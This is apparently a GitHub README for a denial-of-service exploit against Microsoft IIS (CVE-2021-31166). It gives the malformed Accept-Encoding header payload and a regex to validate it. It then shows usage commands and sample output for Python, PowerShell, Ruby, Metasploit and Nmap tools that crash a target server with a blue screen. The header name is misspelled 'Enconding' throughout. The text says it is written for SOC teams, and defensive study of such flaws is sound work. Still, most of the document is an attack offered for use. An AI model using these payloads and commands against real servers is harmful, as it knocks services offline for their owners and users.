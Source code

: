 # CVE-2021-31166

## Why

I recently wrote an exploit for CVE-2021-31166, it exploit CVE-2021-31166 and CVE-2021-31166. A pentester should use https://github.com/mauricelambert/CVE-2021-31166, but in SOC teams we need to know the specific vulneraility to fix it properly, which is why i wrote this exploit.

## Description

I propose pure python, powershell, ruby scripts and metasploit, nmap modules to attack a vulnerable IIS Web Server (perform a DOS attack to crash (blue screen) the server).

Payload is very simple:
 - `Accept-Enconding: something, ,`
 - Replace `something` with whatever header value you want
 - Should match with: `Accept-Enconding: (\w|[~/\.-]|%[0-9a-fA-F]{2})+,\s+,`

Check your payload with python:

```python
from re import fullmatch
if fullmatch(r"Accept-Enconding: (\w|[~/\.-]|%[0-9a-fA-F]{2})+,\s+,", "Accept-Enconding: something, ,"):
    print("Payload is valid !")
```

## Exploit: DOS - BlueScreen

### Python

```bash
python3 CVE202131166.py
# OR
chmod u+x CVE202131166.py
./CVE202131166.py

python3 CVE202131166.py <target>
# OR
chmod u+x CVE202131166.py
./CVE202131166.py <target>

python3 CVE202131166.py 10.10.10.10
# OR
chmod u+x CVE202131166.py
./CVE202131166.py 10.10.10.10:8000
# OR
python3 CVE202131166.py mywebservername
```

```text
~# python CVE202131166.py

CVE-2021-31166  Copyright (C) 2022  Maurice Lambert
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions.

Target: 10.10.10.10

[+] http://10.10.10.10 is UP. Send payload...
[+] http://10.10.10.10 is DOWN. 10.10.10.10 is vulnerable to CVE-2021-31166.

~# 
```

### Powershell

```powershell
powershell ./CVE-2021-31166.ps1
powershell ./CVE-2021-31166.ps1 mywebservername
powershell ./CVE-2021-31166.ps1 -Target 10.10.10.10
```

```text
cmd> powershell ./CVE-2021-31166.ps1

cmdlet CVE-2021-31166.ps1 at command pipeline position 1
Supply values for the following parameters:
target: 10.10.10.10:8000

CVE-2021-31166  Copyright (C) 2022  Maurice Lambert
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions.

cmd>
```

### Ruby

```bash
ruby CVE-2021-31166.rb
ruby CVE-2021-31166.rb 10.10.10.10
```

```text
~# ruby CVE-2021-31166.rb

CVE-2021-31166  Copyright (C) 2022  Maurice Lambert
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions.

Host (target): 10.10.10.10
[+] Target: 10.10.10.10 is vulnerable and down.

~#
```

### Metasploit

#### Python module

```text
msf6 > use exploit/windows/iis/py_dos_iis_2021_31166
msf6 auxiliary(windows/iis/py_dos_iis_2021_31166) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/py_dos_iis_2021_31166) > set RPORT 80
RPORT => 80
msf6 auxiliary(windows/iis/py_dos_iis_2021_31166) > exploit
[*] Running module against 127.0.0.1

[*] Starting server...
[*] py_dos_iis_2021_31166.py[10.10.10.10:80] - Trying first connection...
[*] py_dos_iis_2021_31166.py[10.10.10.10:80] - First connection OK. Sending payload...
[*] py_dos_iis_2021_31166.py[10.10.10.10:80] - Target is down ! Congratulations !
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/py_dos_iis_2021_31166) >
```

#### Ruby module

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2021_31166 
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > exploit
[*] Running module against 10.10.10.10

[+] Target is down ! Congratulations !
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) >
```

### Nmap

```bash
nmap -p 80 --script dos_iis_2021_31166 10.10.10.10
```

```text
~# nmap -p 80 --script dos_iis_2021_31166 10.10.10.10
80/tcp open  http
| dos_iis_2021_31166:
|   VULNERABLE:
|   IIS CVE-2021-31166 DOS
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2021-31166
|                   The IIS Web Server contains a RCE vulnerability. This script
|                   exploits this vulnerability with a DOS attack
|                   (causes a Blue Screen).
|
|     Disclosure date: 2021-05-11
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2021-31166
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31166
|_      https://github.com/mauricelambert/CVE-2021-31166
```

## Sources

 - [Microsoft](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-31166)
 - [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2021-31166)
 - [Pure ruby script documentation](https://mauricelambert.github.io/info/ruby/code/CVE-2021-31166/CVE202131166.html)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
